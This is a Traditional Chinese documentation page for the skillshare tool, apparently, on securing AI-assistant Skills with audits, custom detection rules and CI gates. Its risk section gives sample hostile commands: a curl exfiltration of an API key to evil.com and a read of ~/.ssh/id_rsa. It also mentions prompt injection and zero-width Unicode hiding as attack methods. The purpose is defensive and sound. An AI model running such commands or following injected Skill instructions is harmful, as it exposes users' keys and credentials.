

# 保護你的 Skills

AI Skills 的能力很強大 — 它們會指示 AI 助理讀取檔案、執行指令，並與你的系統互動。本指南協助你圍繞 Skill 的安裝與維護建立一套安全性 Workflow。

完整指令參考請見 [`audit`](/docs/reference/commands/audit)。

## 風險所在：AI Skill 供應鏈

與在沙盒執行環境中運行的傳統套件不同，AI Skills 是透過 **自然語言指令** 運作，由 AI 直接解讀並執行。一個被入侵的 Skill 可能會指示 AI：

- 外洩機密資訊（`curl https://evil.com?key=$API_KEY`）
- 讀取憑證（`cat ~/.ssh/id_rsa`）
- 透過 prompt injection 覆寫安全行為
- 用零寬度 Unicode 字元隱藏惡意意圖

:::caution

單一惡意 Skill 就能存取你的 AI 助理所能觸及的一切 — 環境變數、SSH 金鑰、雲端憑證、原始碼。自動化掃描能抓到已知的模式，但**人工審查仍然不可或缺**。

詳細的威脅模型與偵測規則，請參閱 [Why Security Scanning Matters](/docs/understand/audit-engine#why-security-scanning-matters)。

:::

## 縱深防禦

沒有任何單一層能捕捉所有問題。請結合人工審查、自動化掃描、自訂規則與 CI/CD 關卡：

| 層級 | 工具 | 作用 |
|-------|------|-------------|
| **審查** | 人工 | 安裝前閱讀 SKILL.md — 檢查是否有可疑指令 |
| **稽核** | `skillshare audit` | 自動化模式偵測（100+ 內建規則、5 個嚴重程度、6 種分析器） |
| **自訂規則** | `audit-rules.yaml` | 組織專屬的模式（內部機密、白名單） |
| **CI/CD** | Pipeline 關卡 | 封鎖引入高風險 Skill 的 PR |

### 供應鏈安全生命週期

安全檢查點取決於 Skill 的安裝方式（`--track` 或一般安裝）：



**關鍵設計：**
- **一般 Skill 安裝／更新** — 稽核會在接受前執行；安裝／更新成功後會寫入 `file_hashes` metadata
- **Tracked repo 安裝關卡** — 全新的 `--track` 安裝會在接受前對整個被 clone 的 repo 進行稽核
- **Tracked repo 更新關卡** — `skillshare update` 會在 `git pull` 之後進行稽核；達到／超過門檻的發現，在非互動模式下會自動觸發回復
- **完整性驗證範圍** — `content-*` 雜湊值檢查只有在存在 `file_hashes` metadata 時才會執行

## 安全檢查清單

:::tip 三階段檢查清單

**安裝前：**
- [ ] 檢視來源 repository（星數、貢獻者、近期活躍度）
- [ ] 閱讀 SKILL.md — 留意 `curl`、`wget`、`eval`、憑證路徑
- [ ] 先進行 dry-run：`skillshare install <source> --dry-run`

**安裝後：**
- [ ] 執行 `skillshare audit` 並檢視所有發現
- [ ] 即使 Skill「通過」了，也要檢查是否有 HIGH／MEDIUM 等級的發現（預設門檻為 CRITICAL）
- [ ] 定期重新稽核 — 新規則可能會抓到先前未偵測到的模式

**團隊適用：**
- [ ] 在設定中設定 `audit.block_threshold: HIGH`
- [ ] 為組織專屬的機密模式建立自訂規則
- [ ] 為共享的 Skill repository 在 CI pipeline 中加入 audit
- [ ] 安排定期掃描（見下方 [定期掃描](#periodic-scanning)）

:::

## 組織政策

### 封鎖門檻（Block Threshold）

預設門檻只會封鎖 `CRITICAL` 等級的發現。對團隊而言，建議採用更嚴格的門檻：

```yaml
# ~/.config/skillshare/config.yaml
audit:
  block_threshold: HIGH  # 封鎖 HIGH 與 CRITICAL 等級的發現
```

這能抓到混淆處理、破壞性指令，以及隱藏內容注入 — 這些模式在 Skill 檔案中幾乎都是惡意的。

### 自訂規則

新增組織專屬的偵測模式。常見的使用情境包括：

- 內部 API key 格式（`corp-api-key-*`、`internal-token-*`）
- 不允許的網域或服務
- 為受信任的 CI 自動化壓制誤判

```yaml
# ~/.config/skillshare/audit-rules.yaml
rules:
  - id: internal-token-leak
    severity: HIGH
    pattern: internal-token
    message: "Internal API token pattern detected"
    regex: '(?i)\b(corp-api-key|internal-token)-[A-Za-z0-9]{10,}\b'

  - id: destructive-commands-2
    severity: MEDIUM
    pattern: destructive-commands
    message: "Sudo usage (downgraded for CI automation)"
    regex: '(?i)\bsudo\s+'
```

完整的自訂規則參考（合併語意、停用規則、排除模式），請參閱 [`audit rules` — Custom Rules](/docs/reference/commands/audit-rules#custom-rules)。

### 定期掃描 {#periodic-scanning}

規則會不斷演進 — 一個在安裝時是乾淨的 Skill，之後可能會符合新加入的規則。請安排定期掃描：

```bash
# crontab：每週掃描所有 Skills，並記錄結果
0 9 * * 1 skillshare audit --json >> /var/log/skillshare-audit.json 2>&1
```

## CI/CD 整合

### 基本 Pipeline 關卡

```bash
# 若任何 Skill 有 HIGH 以上的發現，就讓 pipeline 失敗
skillshare audit --threshold high
# Exit code：0 = 乾淨，1 = 有發現
```

### 真實案例：Skill Hub 的 PR 驗證

[skillshare-hub](https://github.com/runkids/skillshare-hub) 社群 repository 使用 `skillshare audit` 作為 PR 的關卡。每一個修改 Skills 的 PR 都會自動被掃描，稽核結果會以 PR 留言的方式張貼：

```yaml
# .github/workflows/validate-pr.yml（簡化版）
name: Validate PR
on:
  pull_request:
    paths: ['skills/**']

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: runkids/setup-skillshare@v1
        with:
          source: ./skills
          audit: true
          audit-threshold: high
```

完整的工作流程（包含 PR 留言回報與 artifact 上傳），請參閱 [validate-pr.yml 原始碼](https://github.com/runkids/skillshare-hub/blob/main/.github/workflows/validate-pr.yml)。

更多 CI/CD 模式（SARIF 上傳、嚴格設定檔、手動設定），請參閱 [CI/CD Skill Validation recipe](/docs/how-to/recipes/ci-cd-skill-validation)。

## 另請參閱

- [`audit`](/docs/reference/commands/audit) — CLI 指令參考
- [`audit rules`](/docs/reference/commands/audit-rules) — 規則管理與自訂
- [Audit Engine](/docs/understand/audit-engine) — 引擎運作方式（威脅模型、風險評分、分級）
- [最佳實務](/docs/how-to/daily-tasks/best-practices) — 命名、組織與安全衛生習慣
- [Project Setup](/docs/how-to/sharing/project-setup) — 專案範圍的 Skill 設定
